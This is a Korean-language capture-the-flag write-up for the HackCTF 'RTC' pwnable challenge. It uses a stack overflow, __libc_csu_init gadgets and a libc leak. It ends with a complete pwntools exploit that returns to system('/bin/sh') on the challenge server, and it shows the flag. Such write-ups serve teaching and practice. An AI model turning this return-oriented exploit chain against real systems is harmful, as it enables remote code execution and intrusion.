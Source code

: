 #RTC

---

우선 `main()`을 보자.
<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "Hey, ROP! What's Up?\n", 0x15uLL);
  return read(0, &buf, 0x200uLL);
}
</pre>

bof 취약점이 발생한다. ROP 문제가 되겠다. 우선 쓸 수 있는 함수는 `read()`와 `write()`가 있다.

쓸만한 gadget들을 찾아보자.
<pre>
gdb-peda$ pd __libc_csu_init
Dump of assembler code for function __libc_csu_init:
...
   0x00000000004006a0 <+64>:	mov    rdx,r13
   0x00000000004006a3 <+67>:	mov    rsi,r14
   0x00000000004006a6 <+70>:	mov    edi,r15d
   0x00000000004006a9 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x00000000004006ad <+77>:	add    rbx,0x1
   0x00000000004006b1 <+81>:	cmp    rbx,rbp
   0x00000000004006b4 <+84>:	jne    0x4006a0 <__libc_csu_init+64>
   0x00000000004006b6 <+86>:	add    rsp,0x8
   0x00000000004006ba <+90>:	pop    rbx
   0x00000000004006bb <+91>:	pop    rbp
   0x00000000004006bc <+92>:	pop    r12
   0x00000000004006be <+94>:	pop    r13
   0x00000000004006c0 <+96>:	pop    r14
   0x00000000004006c2 <+98>:	pop    r15
   0x00000000004006c4 <+100>:	ret  
...  
End of assembler dump.
</pre>

다음 코드 중 밑부분을 통해서 r12에 `read()` 혹은 `write()`의 got를, r13에는 3번째 인자를, r14에는 2번째 인자를, r15에는 3번째 인자를 넣은 후 코드의 윗부분을 활용한다면 `read()`와 `write()`를 원하는대로 사용할 수 있다. 이를 통해서 다음과 같이 익스할 것이다.


(1) write함수를 통해서 read의 got를, 즉 read함수의 주소를 출력한다.<br>
(2) (1)의 정보를 이용해서 libc_base, system함수, "/bin/sh" 문자열의 주소를 계산한다.
(3) "/bin/sh" 문자열을 인자로, system함수로 이동한다.

(1)과 (2)사이에 계산할 시간이 필요하기 때문에  (1)이 끝난 이후 다시 `main()`으로 ret할 것이다.

익스에 필요한 정보들은 다음과 같다.
<pre>
gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/26.RTC/rtc:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601050 R_X86_64_COPY     stdin@@GLIBC_2.2.5
0000000000601018 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
0000000000601028 R_X86_64_JUMP_SLOT  __libc_start_main@GLIBC_2.2.5
0000000000601030 R_X86_64_JUMP_SLOT  setvbuf@GLIBC_2.2.5
</pre>

**csu\_up=0x4006a0 <br>
csu\_down=0x4006ba <br>
read\_got=0x601020 <br>
write\_got=0x601018 <br>**

<pre>
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xf7250 < read>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0x45390 < system>
gdb-peda$ q
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ strings -tx libc.so.6 | grep "/bin/sh"
 18cd57 /bin/sh
</pre>

**read\_offset=0xf7250** <br>
**system\_offset=0x45390** <br>
**binsh\_offset=0x18cd57**

<pre>
gdb-peda$ p main
$1 = {<text variable, no debug info>} 0x4005f6 <main>
</pre>
**main=0x4005f6**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ ROPgadget --binary rtc | grep "pop"
...
0x00000000004006c3 : pop rdi ; ret
0x00000000004006c1 : pop rsi ; pop r15 ; ret
...
</pre>

**pr=0x4006c3** <br>
**ppr=0x4006c1**

다음과 같은 익스코드를 짜서 익스에 성공할 수 있었다.

<pre>
from pwn import*

#p=process('./rtc')
p=remote('ctf.j0n9hyun.xyz', 3025)

csu_up=0x4006a0
csu_down=0x4006ba
read_got=0x601020
write_got=0x601018
read_offset=0xf7250
system_offset=0x45390
binsh_offset=0x18cd57
main=0x4005f6
pr=0x4006c3
ppr=0x4006c1

p.recvuntil('\n')

payload='A'*0x48
payload+=p64(csu_down)
payload+=p64(0)
payload+=p64(1)
payload+=p64(write_got)
payload+=p64(6)
payload+=p64(read_got)
payload+=p64(1)
payload+=p64(csu_up)
payload+='A'*56
payload+=p64(main)

p.sendline(payload)
sleep(0.1)

read_address=u64(p.recv(6).ljust(8,'\x00'))
libc_base=read_address-read_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

log.info("libc_base is "+str(hex(libc_base)))
log.info("system_address is "+str(hex(system_address)))

p.recvuntil('\n')

payload2='A'*0x48
payload2+=p64(pr)
payload2+=p64(binsh_address)
payload2+=p64(ppr)
payload2+=p64(0)
payload2+='A'*8
payload2+=p64(system_address)

p.sendline(payload2)
sleep(0.1)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ vi ex.py
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/26.RTC$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3025: Done
[*] libc_base is 0x7f860038c000
[*] system_address is 0x7f86003d1390
[*] Switching to interactive mode
$ cat flag
HackCTF{4ll_r1ght_c5u_1n1t!}
</pre>

**flag: HackCTF{4ll_r1ght_c5u_1n1t!}**